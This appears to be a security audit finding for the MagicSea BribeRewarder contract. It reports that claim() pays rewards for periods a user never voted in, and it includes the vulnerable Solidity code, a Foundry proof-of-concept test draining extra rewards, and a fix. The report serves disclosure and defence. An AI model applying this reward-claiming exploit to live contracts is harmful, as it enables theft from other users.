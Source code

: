 Quick Mahogany Viper

High

# BribeRewards.sol#claim - Users can claim rewards for periods they haven't voted

## Summary
Users can claim rewards for periods they haven't voted.

## Vulnerability Detail
When a user votes, the amount he votes is deposited into the bribe rewarder. Later, when the period in which he votes is over, he can claim his rewards for voting using `claim` function.

`claim` function gets the latest finished period and loops thought all finished periods and calls `_modify` to claim the reward for each period. Users should have rewards **ONLY** for periods they have voted. However, there is no check if the user voted in the period, for which they call `_modify`. User needs to deposit for only one period and he gets a reward for every future period.
```js
 function claim(uint256 tokenId) external override {
        uint256 endPeriod = IVoter(_caller).getLatestFinishedPeriod();

        uint256 totalAmount;

        // calc emission per period cause every period can every other durations
        for (uint256 i = _startVotingPeriod; i <= endPeriod; ++i) {
            totalAmount += _modify(i, tokenId, 0, true);
        }

        emit Claimed(tokenId, _pool(), totalAmount);
    }

```

## PoC
Paste the following test inside `test/BribeRewarder.t.sol`
```js
  function testClaimRewards() public {
        ERC20Mock(address(rewardToken)).mint(address(this), 50e18);
        ERC20Mock(address(rewardToken)).approve(address(rewarder), 50e18);
        rewarder.fundAndBribe(1, 3, 10e18);

        // period 1
        _voterMock.setCurrentPeriod(1);
        _voterMock.setStartAndEndTime(block.timestamp, block.timestamp + 14 days);

        // Alice deposit in this period, meaning she voted
        vm.prank(address(_voterMock));
        vm.warp(block.timestamp + 5 days);
        rewarder.deposit(1, 1, 0.2e18);

        _voterMock.setLatestFinishedPeriod(1);

        vm.warp(block.timestamp + 15 days);

        // Alice gets her reward
        vm.prank(alice);
        rewarder.claim(1);
        assertEq(6428571428570831999, rewardToken.balanceOf(alice));

        // period 2
        _voterMock.setCurrentPeriod(2);
        _voterMock.setStartAndEndTime(block.timestamp, block.timestamp + 14 days);
        vm.warp(block.timestamp + 15 days);
        _voterMock.setLatestFinishedPeriod(2);

        // Alice claims again even though she hasn't depostied
        vm.prank(alice);
        rewarder.claim(1);
        assertEq(16428571428569903999, rewardToken.balanceOf(alice));
    }

```


## Impact
Users can claim rewards for periods they haven't voted

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/42e799446595c542eff9519353d3becc50cdba63/magicsea-staking/src/rewarders/BribeRewarder.sol#L153-L164
## Tool used

Manual Review

## Recommendation
Before calling `_modify` in the for loop, first check if the user has voted in this period, if yes, then call `_modify`.
